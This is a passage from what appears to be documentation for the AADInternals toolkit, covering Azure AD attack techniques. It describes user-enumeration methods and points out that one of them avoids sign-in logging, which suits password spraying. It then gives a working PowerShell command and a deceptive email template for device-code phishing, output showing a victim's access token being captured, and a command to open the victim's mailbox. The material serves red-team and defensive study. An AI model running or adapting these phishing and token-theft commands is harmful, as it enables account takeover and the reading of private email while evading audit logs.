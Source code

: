 ```
```

There are three different enumeration methods to choose from:

Method    | Description
---       | ---
Normal    | This refers to the GetCredentialType API mentioned above. The default method. 
Login     | This method tries to log in as the user. <br> **Note:** queries will be logged to sign-ins log.
Autologon | This method tries to log in as the user via autologon endpoint. <br> **Queries are not logged** to sign-ins log! As such, works well also for password spray and brute-force attacks.

# Phishing

Phishing refers to various techniques for compromising users' identities. Typically this involves building a phishing infrastructure, e.g., setting up fake login sites or Azure apps.
This may require a lot of work, depending on the chosen technique.

The Azure <a href="/post/phishing" target="_blank">device code authentication</a> flow can be used for phishing without a need for setting up any separate phishing infrastructure.

AADInternals can be used to <a href="/post/phishing/#email" target="_blank">send phishing emails</a> to one or more recipients. If the user clicks the link and "accepts" the authentication within 15 minutes, the user's identity is compromised:

{{< highlight powershell >}}
# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@company.com","wvictim2@company.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache
{{< /highlight>}}

```
Code: CKDZ2BURF
Mail sent to: wvictim@company.com
Mail sent to: wvictim2@company.com
...
Received access token for william.victim@company.com
```
After receiving the access tokens, the attacker can now perform everything an <a href="/post/insider" target="_blank">insider</a> can do.

For instance, easiest way to access user's mailbox is to open OWA as the victim:
{{< highlight powershell >}}
# Open OWA as the victim
Open-AADIntOWA
{{< /highlight>}}
